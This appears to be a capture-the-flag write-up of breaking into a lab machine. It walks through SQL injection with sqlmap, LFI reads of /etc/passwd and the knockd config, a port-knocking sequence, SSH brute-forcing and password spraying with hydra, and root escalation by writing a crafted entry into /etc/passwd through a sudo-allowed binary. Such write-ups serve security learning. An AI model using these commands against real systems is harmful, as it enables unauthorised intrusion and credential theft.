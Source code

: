 > SQL Injection, ssh, Password Spraying

# Ports

* **80** : Default apache setup page
* **22** : Filtered SSH
### Port 80, 22 are used for exploiting

# 80
1. `gobuster` gave /manage.php, /logout.php, /search.php, /results.php, /sessions.php, /display.php, /configure.php
2. /manage.php contains a signin form for managing records for the /display.php
3. Navigating to /configure.php and then going /manage.php gives us an admin cookie.
4. /manage.php now shows the presence of LFI vulnerbility in the footer of the website.
5. /search.php input has an sql injection vulnerability found using `sqlmap`

# 22
1. SSH Filtered found from `nmap` scans
2. `-sS` scan shows filtered and `-A` scan shows closed.
3. Some firewall is blocking the port

# EXPLOITATION

Capture the search request with burp and save the request to a file. This file is used by sqlmap to check for sql injection and enumerate database.

SSH is secured by using technique of  port knocking. `knockd` is used for implementing this. `knockd` config file is located at `/etc/knockd` and contains the rules for unlocking the port. We use the LFI in the /manage.php to obtain the file contents

## sqlmap
1. `sqlmap -r req.txt --dbs`
"sqlmap use the req.txt and enumerate **database**"

2. `sqlmap -r req.txt -D users --tables`
"Get the tables from users database"

3. `sqlmap -r req.txt -D users -T UserDetails --dump`
"Dump the table **UserDetails**

UserDetail table contains info about users and their passwords.
We can get the users in the server by exploiting the LFI vulnerability to get /etc/passwd file.
`10.0.2.16/manage.php/../../../../etc/passwd` shows us that the users in the UserDetail table maybe a part of the server file system.
`10.0.2.16/manage.php/../../../../etc/knockd`  contains ports to knock before ssh opens.

## netcat
`nc 10.0.2.16 9842`, `nc 10.0.2.16 8475`, `nc 10.0.2.16 7469`  in succession opens the ssh port

## hydra
1. Bruteforce the ssh port with login infos obtained from the table
2. `hydra -L users.txt -P pass.txt 10.0.2.16 ssh`
3. We find that only chandlerb, joeyt, janitor had the correct passwords.

# Actions in the low privilege shell

1. `ls -la` on janitor shows a directory containing some passwords.

3. We take this password and does a password spraying with the 3 new passwords on the other users.
`hydra -L users.txt -p password 10.0.2.16 ssh`

4. We find valid password for fredb

5.  Logging in as fredb and checking for `sudo`  capabilities shows us a NOPASSWD for a binary at /opt/devstuff/dist/test/test

6.  The python code for the binary is at /opt/devstuff/test.py there we can see that it requires a file to read and another file to append the content of the read file. `test read.txt append.txt`

7.  Since it can be run with sudo we can write to the /etc/passwd to create a new user with root privileges.

8.  `openssl -passwd -1 -salt 1x1x password1`
"Openssl generate an **md5** hash with using the **passwd** command by adding a **salt string** 1x1x to the password "

9. The generated hash is then used to make a string that is saved in a writable folder, /tmp in this case, as user.txt. Content of this file:
`newuser:$1$1x1x$g2jpxLRY6SfpAIFnYOwIV1:0:0::/root:/bin/bash`

10. Run the /opt/devstuff/dist/test binary:
`sudo test /tmp/user.txt /etc/passwd`

11. Switch to the `newuser` with password as `password1`
`su newuser`
12. We are now root.
